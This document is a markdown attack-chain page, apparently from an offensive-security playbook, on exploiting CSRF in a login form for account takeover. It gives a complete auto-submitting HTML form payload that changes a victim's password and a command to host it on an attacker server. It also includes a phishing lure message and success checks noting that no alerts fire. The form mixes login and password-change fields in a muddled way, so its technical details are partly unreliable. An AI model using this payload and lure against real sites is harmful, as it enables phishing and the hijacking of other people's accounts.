

# CSRF in Login Form Leading to Account Takeover

Multi-stage attack chain demonstrating a complete attack workflow exploiting CSRF in a web application's login form to achieve account takeover.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for crafting and testing
- Web server to host malicious page (e.g., local Python server)

### Target Environment

- Web platform with vulnerable login form lacking CSRF tokens
- Target URL: e.g., https://target.com/login
- Network access: Attacker must lure victim to malicious site while victim is on the same network or has cookies for the target

### Initial Access Requirements

- Victim must be authenticated or have session cookies for the target site
- Social engineering to trick victim into clicking a link (e.g., phishing email)
- No prior credentials needed, but knowledge of victim's session state

## Detailed Attack Procedures

### Step 1: Prepare Malicious CSRF Page
procedure: [[procedures/Exploit-CSRF-in-Login-Form]]

**Objective**: Create a malicious webpage that automatically submits a forged request to the target's login form, performing unauthorized actions like password change or session hijack.

**Instructions**: Craft an HTML page with an auto-submitting form targeting the vulnerable login endpoint. Host it on an attacker-controlled server. For example, create a file `csrf-poc.html` with the following content:

```html
<!DOCTYPE html>
<html>
<body>
  <form id="csrf-form" action="https://target.com/login" method="POST">
    <input type="hidden" name="username" value="attacker_username">
    <input type="hidden" name="password" value="attacker_password">
    <input type="hidden" name="action" value="change_password">
    <input type="hidden" name="new_password" value="hacked123">
  </form>
  <script>
    document.getElementById('csrf-form').submit();
  </script>
</body>
</html>
```

Host this page using a simple web server, e.g., `python -m http.server 8000`, and obtain the URL like http://attacker.com:8000/csrf-poc.html.

**Expected Output**: The page loads and immediately submits the form in the background.

**Success Indicators**:
- Form submission occurs without user interaction
- No CSRF token validation error from the target

### Step 2: Lure and Execute Takeover
procedure: [[procedures/Exploit-CSRF-in-Login-Form]]

**Objective**: Trick the authenticated victim into visiting the malicious page, triggering the CSRF request and completing the account takeover.

**Instructions**: Send a phishing link to the victim (e.g., via email: "Click here to view important update: http://attacker.com:8000/csrf-poc.html"). When the victim, who is logged into the target site, visits the page, their browser will submit the forged request using their session cookies, allowing the attacker to change the password or gain control.

Monitor the target's login or account activity to confirm the change. For validation, attempt to login with the new credentials set by the CSRF.

**Expected Output**: Attacker gains access to the victim's account using the modified credentials.

**Success Indicators**:
- Victim's account password is changed
- Attacker can login as the victim
- No alerts or blocks from the application

## Attack Chain Summary

### Key Achievements

1. Successful forgery of login form request without CSRF protection
2. Account takeover via unauthorized state change (e.g., password reset)
3. Demonstration of severe impact on user sessions

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
